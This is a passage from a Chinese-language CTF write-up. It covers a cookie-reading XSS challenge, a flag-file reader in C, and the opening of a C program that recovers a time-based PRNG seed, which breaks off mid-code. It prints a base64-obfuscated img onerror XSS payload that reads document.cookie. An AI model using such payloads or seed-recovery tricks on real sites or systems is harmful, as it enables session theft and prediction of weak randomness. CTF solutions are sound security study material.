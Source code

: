 所以我们只要想法构造一个 xss 让他读取 cookie 内容并反写回网页就可以了。

多试几回，就能找到可以注入的地方了~~

```javascript
s=createElement('script');body.appendChild(s);s.innerHTML = `document.querySelector('#score').innerHTML = document.cookie `
```

转为 base64，使用 img onerror 注入

```javascript
123:<img src=x onerror=eval(atob('cz1jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtib2R5LmFwcGVuZENoaWxkKHMpO3MuaW5uZXJIVE1MID0gYGRvY3VtZW50LnF1ZXJ5U2VsZWN0b3IoJyNzY29yZScpLmlubmVySFRNTCA9IGRvY3VtZW50LmNvb2tpZSBg'))>
```

再整体 base64 编码放到 url 中提交，就可以看 flag 了~


# 杯窗鹅影

## flag1

直接写了一个读文件内容的程序。 没啥问题，甚至可以改下前面安全的在线评测的代码就可以直接复用。 第二问没试出来。

```c
#include <stdio.h>
#include <stdlib.h>
int main() {
    char flag[128];
    FILE *fp = fopen("./flag1", "r");
    int idx = 0;
    while ((flag[idx++] = fgetc(fp))!= EOF) {}
    flag[idx-1] = '\0';
    printf("%s\n", flag);
    fclose(fp);
    return 0;
}
```

# 蒙特卡罗轮盘赌

考察伪随机数种子选取的安全性问题。 

只要我们能构造出来一样的种子，就可以获得一样的随机数。 所以保证时间基本一致的情况下。枚举时间差和 `clock()` 即可。 比较坑的是 macOS 上的生成算法可能和其他不太一样。所以前面一直没跑出来。还以为是 `clock()` 范围有问题。 后面开了一个 docker 环境就跑出来了。

```c
#include <math.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int equals(double a, double b) {
    return fabs(a - b) <= 1e-7;
}

double rand01() {
    return (double)rand() / RAND_MAX;
}

int main() {
    // disable buffering
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
```